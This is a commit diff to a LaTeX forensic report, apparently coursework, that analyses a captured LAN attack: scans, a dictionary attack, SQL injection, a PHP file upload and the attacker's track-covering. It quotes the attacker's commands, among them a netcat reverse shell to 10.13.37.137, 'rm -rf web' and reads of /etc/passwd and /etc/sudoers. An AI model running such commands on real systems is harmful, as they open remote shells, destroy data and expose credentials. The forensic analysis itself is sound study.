

Before and after one commit to sedadas/SSE20-16, a LaTeX document (protocol/protocol.tex, which reads protocol/chapters/lan_dump.tex): two parts of pages 3 and 4 of 8 before the commit and two parts of pages 4 and 5 of 10 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Finished LANDump

```diff
--- a/protocol/chapters/lan_dump.tex
+++ b/protocol/chapters/lan_dump.tex
@@ -28,9 +31,46 @@ The attacker did the following actions:
     \item he then tried to cover his tracks (\#10383)
 \end{itemize}
 
+So to conclude the used attacks are these:
+\begin{itemize}
+    \item Arp SCAN (Arp Broadcast)
+    \item Port SCAN
+    \item Dictionary Attack
+    \item SSH Key Scan
+    \item SQL Injection
+\end{itemize}
+
 \subsection{File Upload}
+By using Sql Injection the attacker was redirected to reports page, where he could upload a file.
 The file uploaded was the script 'badPHP.php'.
 It took him less than a second to upload the file.
 
+\subsection{Network environment}
+In this LAN Dump are these ip addresses to be found:
+\begin{itemize}
+    \item 10.13.37.137 as attacker
+    \item 10.13.37.42 a webserver in the role of the victim
+    \item 10.13.37.48 as an active host
+    \item 10.0.2.15 and 10.0.2.15 (dns)
+\end{itemize}
+
+\subsection{Covering Tracks and manipulated Files}
+By successfully being able to communicate with telnet in the end the attacker tried to cover the tracks by trying to detach the screen session that came from his ip address.
+\begin{verbatim}
+sudo screen -dmS reverse_shell bash -c 'sleep 30; nc -e /bin/sh 10.13.37.137 1239'
+\end{verbatim}
+
+In his telnet session he manipulated these files.
+\begin{itemize}
+    \item Removing the web application
+        \begin{verbatim} rm -rf web \end{verbatim}
+    \item Checking who is root
+    \begin{verbatim} grep 'x:0:' /etc/passwd \end{verbatim}
+    \begin{verbatim} grep root /etc/group \end{verbatim}
+    \begin{verbatim} sudo cat /etc/sudoers \end{verbatim}
+    \item He change the access permission of folder upload to all.
+    \item He modified index.php with the content of the badPHP.php file.
+\end{itemize}
+
 \subsection{Targeted Attacks}
 The attacker tried connecting to 10.13.37.137 using FTP and the user 'webadmin' multiple times.
@@ -49,8 +88,8 @@ user 'username' and the password 'password' (frame \#10054).
 
 The attacker tried logging in using telnet with the following username-password combinations:
 \begin{itemize}
-    \item root:tryme - the attempt was unsuccessful
-    \item webadmin:password1 - the attempt was successful
+    \item root:tryme - the attempt was unsuccessful (seen in frames \#10128 - \#10137)
+    \item webadmin:password1 - the attempt was successful (Password he got from Dictionary attack)
 \end{itemize}
 
 \subsection{Name}
```
Also changed, not shown: protocol/imgs/sqlinjecton.PNG (added), protocol/chapters/lan_dump.tex (22 more changed lines).
